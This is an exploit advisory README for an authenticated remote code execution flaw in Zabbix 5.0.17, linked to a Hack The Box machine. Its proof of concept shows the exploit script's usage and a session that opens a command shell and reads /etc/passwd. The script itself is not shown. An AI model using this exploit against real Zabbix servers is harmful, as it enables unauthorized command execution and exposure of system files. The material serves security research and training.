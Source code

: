 # Zabbix 5.0.17 -  Remote Code Execution (Authenticated) 
Zabbix is an open-source software tool to monitor IT infrastructure such as networks, servers, virtual machines, and cloud services. Zabbix collects and displays basic metrics. 

## Exploit Infos:
Finder: Hussien Misbah <br>
Date: 09.03.2022 <br>
Affected Version: 5.0.17 <br>
Build Time: 18.10.2021 <br>
Risk: High <br>

### About exploit :
- This exploit is tested against Zabbix 5.0.17 only
- The account used is the Administrator account 

---

# Proof of Concept 
```
$ ./exploit.py
Usage: ./expoit.py <target url> <username> <password>
Example: ./exploit.py http://example.com Administrator Password123

$ ./exploit.py http://127.0.0.1 Administrator SavePassword321
[*] Get hostId: 10084
[*] Get sid: 425f48afe7a6c98f
[*] Edit item successfully
cmd> id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)

cmd> cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<SNIP>
Debian-snmp:x:111:119::/var/lib/snmp:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false

cmd> exit
Bye

```

---

### Links:
Hussien Misbah:
* https://github.com/HussienMisbah/tools/tree/master/Zabbix_exploit
* https://www.exploit-db.com/exploits/50816
Hack The Box:
* https://app.hackthebox.com/machines/Shibboleth
* https://0xdf.gitlab.io/2022/04/02/htb-shibboleth.html

